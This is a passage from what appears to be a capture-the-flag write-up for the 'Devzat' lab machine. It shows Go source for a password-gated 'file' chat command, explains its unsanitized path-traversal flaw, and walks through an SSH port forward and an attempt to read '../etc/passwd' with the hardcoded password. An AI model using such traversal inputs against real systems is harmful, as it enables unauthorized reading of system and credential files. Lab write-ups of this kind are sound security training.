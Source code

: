 ```go
                if err := scanner.Err(); err != nil {
                        u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
                }

                return

        } else if os.IsNotExist(err) {
                // does not exist, print error
                u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
                return
        }
        // bokred?
        u.system("Something went badly wrong.")
}
```

This creates a new `file` command in Devzat. It takes two parameters: a file path and a password, which must be `CeilingCatStillAThingIn2021?` to proceed.

It joins the program's current working directory with the input file path, ensures the resultant file exists, then outputs the contents of the file. The program doesn't seem to sanitize the input file path, making it possible to append arbitrary `../` sequences to the file path, traverse the file system, and read arbitrary files.

Initiate a local port forward from local port 8443 to the development Devzat instance running on the target's `localhost`:8443.

```bash
$ ssh -i patrick patrick@devzat.htb -L 8443:localhost:8443 -NT

```

Connect to the development Devzat instance and attempt to read `../etc/passwd`, being sure to enter the password from the source code, `CeilingCatStillAThingIn2021?`.

```bash
$ ssh catherine@localhost -p 8443
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
catherine: /file ../etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/etc/passwd does not exist!
```
